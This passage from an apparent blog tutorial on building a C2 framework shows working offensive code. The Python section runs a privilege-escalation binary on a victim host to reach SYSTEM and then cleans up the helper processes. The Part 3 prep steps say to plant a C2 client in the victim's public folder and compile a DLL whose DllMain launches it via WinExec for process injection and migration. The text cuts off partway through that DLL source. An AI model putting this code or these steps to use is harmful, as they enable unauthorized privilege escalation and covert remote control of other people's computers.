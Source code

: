 ```python
                #elevcli="c:/users/"+victim+"/AppData/Local/Programs/Python/Python313/python.exe c:/users/"+victim+"/documents/github/elevationstation_local/elev8cli.py\n"
                #proc.stdin.write(elevcli.encode('UTF-8'))
                proc.stdin.write(b"C:/Users/public/elev8cli.exe\n")
                proc.stdin.flush()
                client.send(b"[+] Wrapping things up!  You should have SYSTEM soon!\n")
                for elevateproc in psutil.process_iter():
                    if "elevationstation" in elevateproc.name():
                        elevateproc.kill()
```

Let's go on ahead and select our newly acquired elevated session:

![image](https://github.com/user-attachments/assets/c9844e5d-50e5-4035-87e5-aa00fc1bd1c5)

Next, we want to run `getsystem` like so:

![image](https://github.com/user-attachments/assets/745a4dd0-c7e4-420a-bc96-9ab82486ce4c)

Check it out, SYSTEM privs!!!!

![image](https://github.com/user-attachments/assets/4fdfe3ca-8166-4068-afbd-0dd9bc96b449)

I can't go into all the specifics on how this works.  That would make for quite the lengthy blog post 😸  I highly recommend checking out my ElevationStation series on my blog and see how it all works!  Last up, let's check out the migrate process functionality!

***Part 3 - Migrating our connection(s) into other processes!***
-

Okay, our last implementation for today!  Save the best for last right? 😸  For this technique, we have a little bit of prep to do first.  This technique uses DLL injection to inject into another process and migrate our session.  I'll include the prep files below.  As I said toward the beginning of this post, the `migrate` feature can migrate a non-admin session into another process, I think I made it `Notepad` by default.  If you're an admin, you can migrate into any process you like.

> **Prep**

- Make sure the C2 client is in the victim's `c:\users\public` directory.  This file: `c2client_part3.py`
- You'll also want to edit and compile this dll source code; adjust it accordingly.  Place it in the `c:\temp` folder.  I don't recall why I chose `temp` over `c:\users\public`, but there you have it.  

```c++
#include <windows.h>

DWORD WINAPI ThreadProc(LPVOID lpParam) {
    // Command to be executed by WinExec
	//You'll want to edit this to make sure the path lines up with your installation of python on the victim machine
	//or better yet, compile this to an exe so you don't have to reference the python path :)
    WinExec("c:\\users\\robbi\\AppData\\Local\\Programs\\Python\\Python313\\python.exe c:\\users\\public\\c2client_part3.py", 0);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH: {
        // Disable thread library calls to optimize performance
        DisableThreadLibraryCalls(hModule);

        // Create a new thread to run the command
        HANDLE hThread = CreateThread(
            NULL,       // default security attributes
            0,          // use default stack size
```